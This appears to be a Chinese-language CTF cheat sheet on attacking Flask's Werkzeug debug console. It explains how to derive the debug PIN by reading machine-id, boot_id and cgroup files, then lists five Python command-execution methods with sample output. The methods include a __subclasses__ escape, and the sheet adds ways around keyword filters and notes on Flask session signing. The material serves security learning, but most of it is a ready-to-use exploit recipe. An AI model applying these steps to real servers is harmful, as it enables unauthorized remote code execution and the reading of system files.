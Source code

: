 

machine-id是关键

`/etc/machine-id` 读不到，那就是 `/proc/sys/kernel/random/boot_id` 和 `/proc/self/cgroup` 拼接了

跑脚本算出PIN之后一定要报错访问`/consloe` 进控制台rce

并且如果可以控制环境变量中的`WERKZEUG_DEBUG_PIN` 那么就不用跑脚本了，直接读取环境变量即可。



控制台拿到PIN，下面方法进行rce

```bash
[console ready]
1. os
>>> import os
>>> os.popen('whoami').read()
'fxe00\n'

2. subprocess.check_output
>>> import subprocess
>>> subprocess.check_output(['whoami'])
b'fxe00\n'

3. subprocess.run
>>> import subprocess
>>> subprocess.run(['whoami'], capture_output=True, text=True)
CompletedProcess(args=['whoami'], returncode=0, stdout='fxe00\n', stderr='')

4. subprocess.Popen
>>> import subprocess
>>> subprocess.Popen(['whoami'], stdout=subprocess.PIPE).stdout.read()
b'fxe00\n'

5. find classes
>>> ''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('whoami').read() 
'fxe00\n'
```





绕过



过滤了self关键字，可以使用相关进程pid进行替换 /proc/1/cmdline

过滤了cgroup关键字，考虑使用mountinfo或cpuset, /proc/1/mountinfo







## session

session保存在客户机上，进行base64编码解码即可。flask在生成session的时候会使用app.config['SECRET_KEY']中的值进行加盐签名
